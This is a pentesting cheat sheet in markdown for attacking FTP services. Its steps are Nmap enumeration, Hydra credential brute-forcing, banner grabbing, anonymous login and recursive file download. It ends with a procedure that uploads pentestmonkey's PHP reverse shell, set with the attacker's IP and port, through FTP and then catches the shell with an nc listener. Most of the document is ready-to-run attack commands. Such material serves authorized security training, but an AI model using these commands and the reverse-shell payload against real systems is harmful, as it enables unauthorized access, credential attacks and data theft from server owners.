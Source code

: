 ```yaml
---
title: File Transfer Protocol (FTP) Pentesting
desc: Default port is 21.
tags: [20, 21, FTP, Hydra, Netcat, Network, Nmap, Web]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


## Enumeration

- **Nmap**

    ```sh
    nmap --script ftp-anon -p 21 <target-ip>
    nmap --script ftp-vuln* -p 21 <target-ip>
    nmap --script ftp-* -p 21 <target-ip>
    ```

- **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> ftp
    hydra -L username.txt -p password <target-ip> ftp

    hydra -l username -P passwords.txt ftp://<target-ip>
    hydra -L usernames.txt -p password ftp://<target-ip>
    ```

<br />

## Investigation

- **Banner Grabbing**

    ```sh
    nc <target-ip> 21
    ```

    - **OpenSSL**

        First off, open listener.

        ```sh
        nc -vn <target-ip> 21
        ```

        Then run the command below.

        ```sh
        openssl s_client -connect <target-ip>:21 -starttls ftp
        ```

<br />

## Connect FTP

```sh
ftp username@10.0.0.1
```

Sometimes you might be able to the **anonymous** login.  
Not likely, but worth a try.

```
ftp 10.0.0.1 
username: anonymous
password: anonymous
```

<br />

## Operations in FTP

If you can connect FTP, search directories and files, then download them to your local machine.

- **Investigation**


    ```sh
    ftp> pwd
    ftp> cd
    ftp> ls
    ```

- **Transfer Files**

    To transfer files to local machine,

    ```sh
    ftp> get sample.txt

    # recursive
    wget -r --user='username' --password='password' ftp://<target-ip>/sample
    ```

<br />

## Reverse Shell over FTP

If the target website allows users to access the ftp directory, you can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload.

    ```sh
    ftp username@<target-ip>

    # Upload the payload you downloaded
    ftp > put shell.php
    ```

3. **Get a Shell**

    At first, you need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    You should get a target shell.